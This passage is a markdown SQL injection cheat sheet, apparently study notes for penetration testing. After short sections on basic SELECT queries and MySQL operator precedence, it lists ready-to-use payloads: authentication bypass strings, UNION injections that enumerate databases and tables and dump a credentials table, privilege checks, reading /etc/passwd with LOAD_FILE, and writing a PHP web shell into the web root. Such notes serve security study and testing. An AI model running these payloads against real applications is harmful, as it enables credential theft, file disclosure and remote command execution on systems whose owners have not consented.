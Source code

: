 | `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |

## MySQL Operator Precedence
* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

## SQL Injection
| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| `' order by 1-- -` | Detect number of columns using `order by` |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
| **DB Enumeration** |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |
